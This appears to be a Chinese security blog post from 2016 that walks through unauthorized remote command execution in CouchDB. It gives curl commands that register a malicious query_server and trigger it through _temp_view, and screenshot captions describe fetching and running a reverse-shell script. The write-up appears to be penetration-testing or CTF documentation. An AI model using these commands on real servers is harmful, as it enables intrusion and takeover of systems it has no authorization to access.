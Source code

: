 ```yaml
---
layout:     post
title:      "Couchdb命令执行"
subtitle:   "一点点记录"
date:       2016-09-11
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - 数据库安全
---
```



## 背景介绍
 CouchDB是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB 可以安装在大部分 POSIX 系统上，包括 Linux和 Mac OS X。

## 漏洞介绍
Couchdb默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

使用nmap扫描可发现couchdb的banner信息
![couchdb默认端口](https://urahara3389.github.io/img/Couchdb-RCE-nmap.png)

>执行命令需要使用admin权限，如果数据库存在未授权则可直接利用，若有账号认证则需要想办法获取admin的密码，当然可通过burpsuit去爆破

CouchDB提供了一个可视化界面工具，在浏览器中运行“http://127.0.0.1:5984/_utils/”，即可见到如下所示的界面。
![账号认证](https://urahara3389.github.io/img/Couchdb-RCE-admin.png)

## 漏洞利用
这里举例有账号认证的情况，我们需要使用admin身份登录然后获取cookie，再使用curl命令与api进行交互，实现数据库操作
![获取Cookie](https://urahara3389.github.io/img/Couchdb-RCE-cookie.png)

>远程命令执行示例
1. 新增query_server配置，写入要执行的命令；
2. 新建一个临时库和临时表，插入一条记录；
3. 调用query_server处理数据

```
curl -X PUT 'http://192.168.199.181:5984/_config/query_servers/cmd' -d '"python /tmp/back.py"'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"

curl -X PUT 'http://192.168.199.181:5984/teeest'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X PUT 'http://192.168.199.181:5984/teeest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X POST 'http://192.168.199.181:5984/teeest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"
```

远程下载反弹脚本
![写入命令](https://urahara3389.github.io/img/Couchdb-RCE-command.png)
成功监听到下载请求
![监听下载](https://urahara3389.github.io/img/Couchdb-RCE-download.png)
添加执行权限
![添加执行权限](https://urahara3389.github.io/img/Couchdb-RCE-chmod.png)
执行反弹脚本
![执行反弹](https://urahara3389.github.io/img/Couchdb-RCE-backshell.png)
getshell，读取flag
![成功](https://urahara3389.github.io/img/Couchdb-RCE-over.png)


### 参考
[CouchDB未授权访问导致执行任意系统命令漏洞](https://www.secpulse.com/archives/45917.html)

[CouchDB未授权访问漏洞导致系统命令执行](http://blog.nsfocus.net/couchdb-unauthorized-access-vulnerability-system-command/)